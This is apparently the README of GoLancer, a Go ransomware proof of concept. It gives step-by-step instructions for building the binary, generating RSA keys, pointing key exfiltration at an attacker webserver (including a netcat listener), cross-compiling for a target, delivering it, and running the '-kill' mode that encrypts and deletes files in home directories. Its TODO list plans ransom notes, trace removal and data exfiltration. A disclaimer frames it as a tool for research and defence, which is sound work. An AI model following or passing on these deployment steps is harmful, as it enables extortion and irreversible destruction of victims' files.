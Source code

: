 # GoLancer

Ransomware PoC implementation built in Golang.<nl>
<nl>
- Encrypts files using 256-bit AES-CTR with random nonces<nl>
- Encryption (and decryption) runs in parallel if enough logical cores are availible. Files are split into chunks and each chunk is encrypted (or decrypted) in it's own goRoutine.<nl>
- AES key is encrypted with 2048 OAEP RSA public key and sent to a webserver via form POST request

  
  

<h2>Usage</h2>
<h3>Flags</h3>

`-g` : Generates RSA keypair and saves them to the disk.
<nl>
`-kill` : Starts the encryption process, crawls user directories and encrypts (and deletes) all files
<nl>
`-d` : Starts the decryption process. The private key must be in the same directory as the GoLancer binary. Will decrypt files, then remove the encrypted files.
<nl>
`-a` : Decrypts AES key using RSA public key.

<h3>Operation</h3>

The 'attacker' will need a web-server setup that accepts form posts requests. GoLancer will send out a form POST request (``application/x-www-form-urlencoded``) to a defined web-address that contains the fields `hostname` and `key` . Any test web-server will work, you could even use netcat (`nc -lvnp 80`) . The 'attacker' can also use something like webhook.site to accept these request. (Although security controls may block this site)

On the 'attacker' machine:

 1. Build binary for attacker's OS and arch
	 1. `go build github.com/WesEfird/GoLancer` 
 2. Generate RSA key-pair (This will create files `private.pem` and `public.pem`)
	 1. `./GoLancer -g` 
 3.  Save the private key somewhere safe
 4. Edit `addr` var in `main.go` to the domain or IP address of your webserver. (Or use something like webhook.site to accept POST requests)
 5. Build binary for target's OS and arch
	 1. `env GOOS=target-OS GOARCH=target-architecture go build github.com/WesEfird/GoLancer` 
	 2. https://www.digitalocean.com/community/tutorials/how-to-build-go-executables-for-multiple-platforms-on-ubuntu-16-04
 6. Deliver binary and `public.pem` to target machine
 7. Wait for binary to be executed on target machine (see below)
	 1. Once the encryption has completed, a POST request will be made to the web-address defined in step 4
 8. Grab AES key from POST request made to your web-server
	 1. Copy key to file named `golancer-e.key` (Make sure file is written with ANSI encoding)
 9. Decrypt AES key
	 1. `./GoLancer -a ` (Make sure the file is in the same directory as GoLancer binary)
	 2. This will create the file `golancer.key` which will contain the decrypted AES key
 10. Now the 'attacker' has the key that will allow the 'target' to decrypt their file system
	 1. Deliver decrypted AES key to the 'target'
 
<nl>

On the 'target' machine:

 1. Once the GoLancer binary and generated RSA public key has been delivered to the 'target', start the encryption process.
	 1. `./GoLancer -kill`
	 2. This will generate a list of all files in the 'target' machine's home directories.
	 3. The AES key will be encrypted using the RSA public key, and will be sent to the defined web-server via POST request.
 2. The encryption process will start, and all files (except for GoLancer files) in the 'target' machine's home directories will be encrypted using 256-bit AES-CTR
 3. Have the decrypted AES key delivered to the 'target' machine
	 1. Move the AES key file `golancer.key` to the directory where the GoLancer binary is located
 4. Decrypt the file system
	 1.  `./GoLancer -d`
	 2. The filesystem will be decrypted, and all encrypted artifacts will be removed


<h3>Build</h3>

 1. `git clone https://github.com/WesEfird/GoLancer.git`
 2. `cd GoLancer`
 3. `go build github.com/WesEfird/GoLancer`



<h2>TODO</h2>

 - Clean AES key from memory after encryption has completed
 - Have target machine write encrypted AES key to disk if the POST request fails
 - Generate ransom note (Or even a cool webpage??)
 - Remove all traces of GoLancer once decryption has taken place
 - Implement data exfiltration

 
<h2>Disclaimer</h2>

The purpose of GoLancer is to allow the study of malware and enable security researchers to have access to a live malware implementation; this implementation is to be used as a tool for educational purposes, and for the development of defensive rules, tactics, and techniques. This program is intended to only be used in environments that the user owns and controls, or in environments where the user has explicit permission to run offensive security tools. The user must adhere to all laws in their jurisdiction and must conduct themselves ethically when using this tool. <nl>
<nl>
**This tool may cause irreversible changes to your system(s), be extremely careful when running this tool.**
